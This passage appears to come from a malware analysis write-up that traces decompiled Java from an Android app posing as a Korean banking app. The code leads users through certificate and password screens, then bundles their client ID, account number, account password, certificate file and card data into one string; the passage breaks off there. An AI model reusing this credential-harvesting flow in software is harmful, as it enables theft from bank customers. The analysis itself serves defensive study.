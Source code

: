 _`bank` is a wrapper for banking data_

If the user is redirected to `KB_Cert_List`, a list of certificates is displayed, where a another `Activity` could be called:

> ```java
>private void initView(){
>	this.certList = new ArrayList();
>	this.head_menu_left_btn = ((ImageView)findViewById(2131296258));
>	this.hana_general_listview = ((ListView)findViewById(2131296310));
>	this.head_menu_left_btn.setOnClickListener(this);
>	this.hana_general_listview.setOnItemClickListener(new AdapterView.OnItemClickListener(){
>		public void onItemClick(AdapterView<?> paramAnonymousAdapterView, View paramAnonymousView, int paramAnonymousInt, long paramAnonymousLong){
>			Intent intent = new Intent(KB_Cert_List.this, KB_Cert_Psw.class);
>			paramAnonymousView = (Bank)bankList.get(paramAnonymousInt);
>			paramAnonymousView.setFileName(.bank.getFileName());
>			paramAnonymousView.setBkType(getSharedPreferences("data", 0).getString("item", null));
>			intent.putExtra("Bank", paramAnonymousView);
>			startActivity(intent);
>		}
>	});
>}
> ```

Once again, in `KB_Cert_Psw`, the user could be redirected to another activity ( `KB_Account_Info` ) if the password is correct:

> ```java
>private Handler handler = new Handler(){
>	public void handleMessage(Message paramAnonymousMessage){
>		super.handleMessage(paramAnonymousMessage);
>		pd.dismiss();
>		et_cert_psw.setText("");
>		Intent intent = new Intent(KB_Cert_Psw.this, KB_Account_info.class);
>		intent.putExtra("Bank", bank);
>		startActivity(intent);
>	}
>};
> ```

This `handler` is then used in a routine named `validation`, comparing a password stored in preferences, and the submitted one.
If passwords match  `KB_Account_Info` is started and the scenario is the same: the user enters its credentials and click on `Confirm`. A new Activity is then launched,
named `KB_Card_Psw`...

### The Holy Grail

This class contains a routine `validation` too, where we can find:

> ```java
>sb.append("clientId:" + bank.getClientId());
>sb.append(" ****  ");
>sb.append("accountNam:" + bank.getAccountName());
>sb.append(" ****  ");
>sb.append("accountNo:" + bank.getAccountNo());
>sb.append(" ****  ");
>sb.append("accountPsw:" + bank.getAccountPsw());
>sb.append(" ****  ");
>sb.append("fileName:" + bank.getFileName());
>sb.append(" ****  ");
>sb.append("bkType:" + bank.getBkType());
>sb.append(" ****  ");
>sb.append("card:" + bank.getCard());
>sb.append(" ****  ");